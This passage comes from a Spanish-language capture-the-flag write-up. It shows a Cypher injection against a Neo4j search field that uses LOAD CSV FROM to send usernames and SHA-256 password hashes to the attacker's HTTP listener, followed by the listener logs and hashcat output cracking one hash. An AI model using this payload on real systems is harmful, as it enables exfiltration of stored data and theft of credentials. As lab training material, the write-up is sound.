 ```bash
... [snip]
10.10.11.210 - - [24/Aug/2023 18:21:53] "GET /?uwu=user HTTP/1.1" 200 -
10.10.11.210 - - [24/Aug/2023 18:21:53] "GET /?uwu=employee HTTP/1.1" 200 -
10.10.11.210 - - [24/Aug/2023 18:21:54] "GET /?uwu=user HTTP/1.1" 200 -
10.10.11.210 - - [24/Aug/2023 18:21:54] "GET /?uwu=employee HTTP/1.1" 200 -
10.10.11.210 - - [24/Aug/2023 18:21:54] "GET /?uwu=user HTTP/1.1" 200 -
10.10.11.210 - - [24/Aug/2023 18:21:55] "GET /?uwu=employee HTTP/1.1" 200 -
10.10.11.210 - - [24/Aug/2023 18:21:55] "GET /?uwu=user HTTP/1.1" 200 -
10.10.11.210 - - [24/Aug/2023 18:21:55] "GET /?uwu=employee HTTP/1.1" 200 -
10.10.11.210 - - [24/Aug/2023 18:21:55] "GET /?uwu=user HTTP/1.1" 200 -
10.10.11.210 - - [24/Aug/2023 18:21:56] "GET /?uwu=employee HTTP/1.1" 200 -
... [snip]
```

Estos son los tipos de datos existentes dentro del Neo4J, el de user llama la atención asi que vamos a sacar nombres; el nombre de la propiedad probablemente sea `username` o `name`, probando por la primera obtenemos resultados

```bash
# MATCH (n: Employee) WHERE n.name = '' OR 1=1 WITH 1 as a MATCH(u: user) UNWIND u.username AS name LOAD CSV FROM 'http://10.10.14.208:8000/?uwu=' + name AS l RETURN 0 AS _0 // RETURN n
search='+OR+1%3d1+WITH+1+as+a+MATCH+(u%3a+user)+UNWIND+u.username+AS+name+LOAD+CSV+FROM+'http%3a//10.10.14.208:8000/%3fuwu%3d'+%2b+name+as+l+RETURN+0+//
```

```bash
... [snip]
10.10.11.210 - - [24/Aug/2023 18:36:40] "GET /?uwu=admin HTTP/1.1" 200 -
10.10.11.210 - - [24/Aug/2023 18:36:40] "GET /?uwu=john HTTP/1.1" 200 -
... [snip]
```

Otro usuario, si probamos por un campo de contraseña `password` obtenemos hashes de tipo SHA2-256...

```bash
10.10.11.210 - - [24/Aug/2023 18:41:28] "GET /?uwu=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [24/Aug/2023 18:41:29] "GET /?uwu=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
```

El de primero es el de admin y el segundo de john, ambos son crackeables y logramos hacerlo en segundos. 

```bash
a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6:ThisIs4You
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4...1c55f6
Time.Started.....: Thu Aug 24 18:44:54 2023 (10 secs)
Time.Estimated...: Thu Aug 24 18:45:04 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1005.1 kH/s (0.42ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digsests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10539008/14344384 (73.47%)
Rejected.........: 0/10539008 (0.00%)
Restore.Point....: 10536960/14344384 (73.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Tiffany93 -> Thelink
Hardware.Mon.#1..: Temp: 71c Util: 70%

```